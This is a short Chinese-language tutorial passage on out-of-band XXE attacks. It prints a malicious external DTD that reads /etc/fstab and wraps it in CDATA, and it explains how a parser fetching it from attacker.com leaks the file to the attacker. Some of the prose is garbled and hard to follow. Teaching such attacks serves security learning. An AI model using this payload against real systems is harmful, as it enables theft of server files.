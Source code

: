 ```
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>"> 
```

解析：

当攻击者发送上述请求时，XML解析器将首先**%dtd**通过向**http://attacker.com/evil.dtd**发出请求来尝试处理参数实体**。**

一旦下载了攻击者的DTD，XML解析器将加载`%file`参数实体（来自**evil.dtd**），在本例中是`/etc/fstab`。然后它将分别``使用`%start`和`%end`参数实体将文件的内容包装在标签中，并将它们存储在另一个名为的参数实体中`%all`。

这个技巧的核心是`%all`创建一个被调用的**通用**实体`&fileContents;`，它可以作为响应的一部分包含在攻击者中。

注:攻击者**可以**只使用DTD内参数实体，而不是内部的XML文档）

结果是回复攻击者，文件（`/etc/fstab`）的内容包含在`CDATA`标签中。